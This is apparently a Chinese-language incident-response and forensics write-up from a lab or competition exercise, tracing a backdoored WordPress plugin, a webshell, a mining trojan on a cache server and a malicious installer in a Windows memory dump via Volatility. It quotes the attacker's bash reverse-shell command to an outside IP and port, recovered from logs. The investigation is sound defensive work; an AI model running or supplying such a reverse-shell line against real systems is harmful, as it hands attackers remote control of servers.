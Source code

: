 # 事件响应
## Web Server
### 任务
- 查找并提交存在后门插件的名称与版本号，并指出该后门的功能
- 分析并指出攻击者如何获取到应用管理员权限
- 提交上述攻击所使用的URL以及获取到管理员信息时执行的完整语句（含注释）
- 请阐述攻击者如何在获得管理员权限后，写入Webshell以提升其权限
- 查找攻击者获得写入的Webshell文件绝对路径
- 查看并提交攻击者写入的Webshell内容
- 分析反弹Shell时使用的恶意IP地址和端口
- 分析攻击者在服务器上开启的端口号及其目的
### 调查过程
在webserver中查看历史命令，计划任务，后门用户和端口，进程
存在其他的端口8024
![](attachment/Pasted%20image%2020230220121713.png)
在Web Server查看本机IP后利用同网段主机访问对应的web服务，发现为WordPress的网站，于是在本机去访问插件对应的目录进行调查
`/var/www/html/wp-content/plugins`
发现在 ==hello.php== 中存在后门代码，功能是能够进行sql查询，但是语句经过rot13和base64的加密
![](attachment/Pasted%20image%2020230219141212.png)

版本在文件开头的注释中
![](attachment/Pasted%20image%2020230219141339.png)

在/var/log/apache2 中发现有日志记录，参数名与插件后门一致
![](attachment/Pasted%20image%2020230219145338.png)
在foot-dark.php中又有命令执行相关日志
![](attachment/Pasted%20image%2020230219150410.png)

查看后发现这个页面可以进行命令执行
![](attachment/Pasted%20image%2020230219150548.png)

关于日志中的加密语句，利用php来进行解密会更加合适和快捷
```php
<?php
$file = 'log.txt';
$file_data = file_get_contents($file);
$data_array = explode("\n", $file_data);
foreach($data_array as $sql_str) {
	echo $sql_str;
	$trans = base64_decode(str_rot13(urldecode($sql_str)));
	echo $trans;
	file_put_content('out.txt',$trans.PHP_EOL, FILE_APPEND);
}
?>
```
细看解密后的log后会发现有一行看了user表，执行后效果是这样
![](attachment/Pasted%20image%2020230220121458.png)
获得用户名与密码
同样对日志中的webshell相关的日志url解码分析
![](attachment/Pasted%20image%2020230220140730.png)
反弹shell
`bash -c "bash i >& /dev/tcp/0x1d205d4/12450 0>&1"`
IP:1.210.5.212
## Cache server
### 工作任务
- 分析攻击者在服务器上开启的端口号及其目的查找并提交攻击者隐藏在系统中的恶意程序的完整路径（多个）
- 分析恶意程序的类型与目的
- 查找并提交被篡改的系统程序名称
- 分析攻击者如何使恶意程序维持启动
- 分别使用一句话简要描述载入脚本（sh文件）中各模块的功能与目的
### 调查过程
netstat -antlp
![](attachments/Pasted%20image%2020230227185016.png)
发现6379端口
ps aux
![](attachments/Pasted%20image%2020230227185321.png)
直接whereis hezb这是一个挖矿木马
`/usr/bin/hezb`

# 数字调查取证
## Dump.raw
### 工作任务
- 识别内存中的恶意进程
- 查找并提交恶意程序在硬盘中上的完整路径
- 分析PE文件以描述其行为
- 分析PE文件寻找攻击者向外传递收集到的信息发送方的地址
### 调查过程
查看镜像类型
![](attachments/Pasted%20image%2020230227090948.png)
查看进程并输入到文本
volatility -f  \[filename\] --profile=\[imageinfo\]  pslist > pslist.txt
![](attachments/Pasted%20image%2020230227091850.png)
volatility -f  \[filename\] --profile=\[imageinfo\]  pstree > pstree.txt
![](attachments/Pasted%20image%2020230227091918.png)
导出对应进程文件
volatility -f \[filename\] --profile=\[imageinfo\] memdump -p \[PID\] -D ./

volatility -f\[filename\] --profile=\[imageinfo\]  filescan
![](attachments/Pasted%20image%2020230227092450.png)
文件路径： `\Device\HarddiskVolume1\User\IEUser\Downloads\SteamInstaller.exe`
在这个dmp文件里面找敏感内容
![](attachments/Pasted%20image%2020230227093739.png)

将exe文件导出
volatility -f \[filename\] --profile=\[imageinfo\] dumpfiles -Q \[偏移地址\] --dump-dir ./
IDA进行逆向
![](attachments/Pasted%20image%2020230227104206.png)
